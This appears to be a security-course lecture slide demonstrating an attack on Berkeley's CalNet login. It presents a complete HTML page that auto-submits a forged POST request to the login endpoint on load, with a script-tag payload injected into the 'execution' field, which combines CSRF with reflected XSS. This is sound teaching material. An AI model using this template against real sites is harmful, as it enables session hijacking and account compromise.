

# Constructing an Attack on CalNet
Attack: Force a POST request to CalNet!
<html>
  <head>
    <script>
	// When the malicious page finishes loading, automatically submit the form!
      document.addEventListener('DOMContentLoaded', () => {
        document.getElementById('form').submit();
      });
    </script>
  </head>
  <body>
    <!-- Malicious form containing our malicious execution data. -->
    <form id="form" action="https://auth.berkeley.edu/cas/login" method="POST">
      <input name="username" type="text" value="evanbot" />
      <input name="password" type="text" value="obviously-not-the-real-password" />
      <input name="execution" type="text" value="<script>alert('XSS!')</script>" />
    </form>
  </body>
</html>
25